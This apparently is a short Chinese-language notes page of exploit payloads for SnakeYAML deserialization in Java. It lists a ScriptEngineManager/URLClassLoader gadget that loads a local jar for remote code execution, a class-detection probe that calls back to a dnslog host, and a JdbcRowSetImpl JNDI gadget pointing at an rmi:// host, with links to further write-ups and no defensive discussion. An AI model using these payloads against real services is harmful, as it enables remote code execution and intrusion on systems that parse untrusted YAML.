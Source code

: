 # snakeyaml

## 不出网利用
>通过写文件然后本地加载rce

//todo 写一个工具 去完成


https://xz.aliyun.com/t/10655

限制了class,不过存在class bean中有object属性   https://mp.weixin.qq.com/s/7HJXfNibY9Z3DPGarTqyZQ

加载本地
```java
String data2 = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"file:E:/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
```

## 判断类存在
```java
 String poc = "[!!判断的类全类名 []: 0, !!java.net.URL [null, \"http://ixvoxg.dnslog.cn\"]: 1]";
```

## 其他链 一般是jndi

```
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: "rmi://xxxx", autoCommit: true}
```
